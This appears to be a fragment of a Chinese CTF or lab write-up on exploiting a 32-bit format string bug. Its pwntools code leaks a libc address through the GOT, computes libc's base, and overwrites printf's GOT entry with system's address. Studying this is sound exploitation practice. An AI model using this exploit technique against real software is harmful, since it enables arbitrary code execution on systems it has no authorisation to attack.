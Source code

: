 ## 找偏移地址
```py
#反汇编得到start函数在got.plt中的地址
libc_start_got = 0x804a01c
# 加载libc
libc = ELF('/lib32/libc.so.6')
libc_off = libc.symbols['__libc_start_main']
# 字符串格式化漏洞，偏移为5，泄露libc库中start函数的实际地址
r.sendline(p32(libc_start_got)+'#'+'%5$s'+'#')
# 格式化输出，方便得到地址
r.recvuntil('#')
# 基地址=实际地址-偏移地址
libc_base = u32(r.recvuntil('#')[:4])-libc_off
# 修改printf函数地址为system函数地址
printf_got= 0x804a00c #从elf文件获得
system_off = libc.symbols['system'] #libc中system偏移地址
system= libc_base + system_off #实际地址=基地址+偏移地址
# 利用字符串格式化进行任意地址写
r.sendline(fmtstr_payload(5,{printf_got:system}))
```

```sh
readelf -a /lib32/libc.so.6 |grep '__libc_start_main'
```
![readelf](fmt/2019-01-20-18-00-48.png)
看最后1.5个byte（32位elf）
![](fmt/2019-01-20-18-02-13.png)
实际elf中的start函数地址

